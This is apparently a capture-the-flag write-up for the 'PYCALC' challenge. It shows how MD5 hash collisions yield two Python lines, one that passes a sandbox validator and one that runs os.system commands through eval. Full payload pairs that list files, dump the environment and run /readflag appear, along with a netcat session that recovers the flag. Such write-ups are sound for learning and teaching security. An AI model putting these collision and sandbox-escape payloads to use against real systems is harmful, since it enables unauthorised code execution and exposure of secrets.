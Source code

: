 # PYCALC

Goal: Generate MD5 hash collisions to end up with two valid Python commands where one passes the sandbox and the other runs our payload.

[Hashclash textcoll](https://github.com/cr-marcstevens/hashclash/blob/master/scripts/textcoll.sh) config:
```bash
ALPHABET='0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\()*+,-./:;<=>?@[\]^_`{|}~'"'"

FIRSTBLOCKBYTES="TODO add this to the writeup lol"
SECONDBLOCKBYTES=""
```

Just tried looking for the flag in PWD, got nothing:

```py
AA=eval;b='__import__("os").system("ls -al;cat *")';':3DDN:3DDN:[a?MB-QPR4RjL44z?d';A=(b)#|:^Iptz6d1-yvLWkykX6kCA?Suvf)Bu<KH_Me#6F}Ebf9'>ZF7i=BKwk+}&B=4<v8OdqZ0Q@Dz,ZL]u0AS<i16ku*R########=709
AA=eval;b='__import__("os").system("ls -al;cat *")';':3DDN:3DDN:[a?MB-QPR4RjL44z?d';AA(b)#|:^Iptz6d1-yvLWkykX6kCA?Suvf)Bu<KH_Me#6F}Ebf9'>ZF7i=BKwk+}&B=4<v8OdqZ0Q@Dz,ZL]u0AS<i16ku*R########=709
```

```py
AA=eval;b='__import__("os").listdir()';':3DDNDDNDDN:3DDNDDNDDN:3`U_<H>I3M/f&EN^R,C';A=(b)#~L?crxC.lwX1^7-l'"&l5QiVeXW5.8s!s23t\:IpEO3P=]nNjEko+OeH~`?pzt!"a;cw/r%=\8uf?)GT}f3(}bzeu+!!!!"!!!/{F/
AA=eval;b='__import__("os").listdir()';':3DDNDDNDDN:3DDNDDNDDN:3`U_<H>I3M/f&EN^R,C';AA(b)#~L?crxC.lwX1^7-l'"&l5QiVeXW5.8s!s23t\:IpEO3P=]nNjEko+OeH~`?pzt!"a;cw/r%=\8uf?)GT}f3(}bzeu+!!!!"!!!/{F/
```

Looked at ENV as well as all folders in /:

```py
AA=eval;b='__import__("os").system("pwd;env;ls -al / /*")';'Duck2<;`KKJ6+!KDxC7399';A=(b)#wh=Ye9(5r:f!i7KD{AR!p[@:U`uv&Bw_1pO.:##X(d}>[BF)%oy;kKPb*na8;0NdQFilXE~\Mc+ZZcU]*Z)r5ptTU&!!)!9!!!6VdB
AA=eval;b='__import__("os").system("pwd;env;ls -al / /*")';'Duck2<;`KKJ6+!KDxC7399';AA(b)#wh=Ye9(5r:f!i7KD{AR!p[@:U`uv&Bw_1pO.:##X(d}>[BF)%oy;kKPb*na8;0NdQFilXE~\Mc+ZZcU]*Z)r5ptTU&!!)!9!!!6VdB

```

Found /readfile and ran it to get flag:


```py
AA=eval;b='__import__("os").system("/readflag")';'DuckDuckDuckNoeq/"Pb;f^lFz(*Z9Y9';A=(b)#z"JTOR1&6=SUblG$^~=z!\yB|O|s%22ROt;*GP7J`#TojG=?4T"e29$r#=lkpL@fLh5%5'Bq&kq"!!}L5Se3zYFv-n!!(!)9!!WM`}
AA=eval;b='__import__("os").system("/readflag")';'DuckDuckDuckNoeq/"Pb;f^lFz(*Z9Y9';AA(b)#z"JTOR1&6=SUblG$^~=z!\yB|O|s%22ROt;*GP7J`#TojG=?4T"e29$r#=lkpL@fLh5%5'Bq&kq"!!}L5Se3zYFv-n!!(!)9!!WM`}
```

Note: There was a 192 character limit. If you sent a payload exactly 192 characters long (such as our payload), the shell kicked you out, but you could do `payload;a` to bypass this.

```py
$ nc pycalc.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
Simple calculator in Python, type 'exit' to exit
> AA=eval;b='__import__("os").system("/readflag")';'DuckDuckDuckNoeq/"Pb;f^lFz(*Z9Y9';A=(b)#z"JTOR1&6=SUblG$^~=z!\yB|O|s%22ROt;*GP7J`#TojG=?4T"e29$r#=lkpL@fLh5%5'Bq&kq"!!}L5Se3zYFv-n!!(!)9!!WM`};a
AA=eval;b='__import__("os").system("/readflag")';'DuckDuckDuckNoeq/"Pb;f^lFz(*Z9Y9';A=(b)#z"JTOR1&6=SUblG$^~=z!\yB|O|s%22ROt;*GP7J`#TojG=?4T"e29$r#=lkpL@fLh5%5'Bq&kq"!!}L5Se3zYFv-n!!(!)9!!WM`};a
Caching code validation result with key eaf88ad5d7461edd57598b84f8d842ee
Waiting up to 10s for completion
'DuckDuckDuckNoeq/"Pb;f^lFz(*Z9Y9'
> invalid syntax (<stdin>, line 1)
> AA=eval;b='__import__("os").system("/readflag")';'DuckDuckDuckNoeq/"Pb;f^lFz(*Z9Y9';AA(b)#z"JTOR1&6=SUblG$^~=z!\yB|O|s%22ROt;*GP7J`#TojG=?4T"e29$r#=lkpL@fLh5%5'Bq&kq"!!}L5Se3zYFv-n!!(!)9!!WM`}
AA=eval;b='__import__("os").system("/readflag")';'DuckDuckDuckNoeq/"Pb;f^lFz(*Z9Y9';AA(b)#z"JTOR1&6=SUblG$^~=z!\yB|O|s%22ROt;*GP7J`#TojG=?4T"e29$r#=lkpL@fLh5%5'Bq&kq"!!}L5Se3zYFv-n!!(!)9!!WM`}
Hit code validation result cache with key eaf88ad5d7461edd57598b84f8d842ee
Waiting up to 10s for completion
'DuckDuckDuckNoeq/"Pb;f^lFz(*Z9Y9'
CTF{Ca$4_f0r_d3_C4cH3_Ha5hC1a5h}
0
>
```
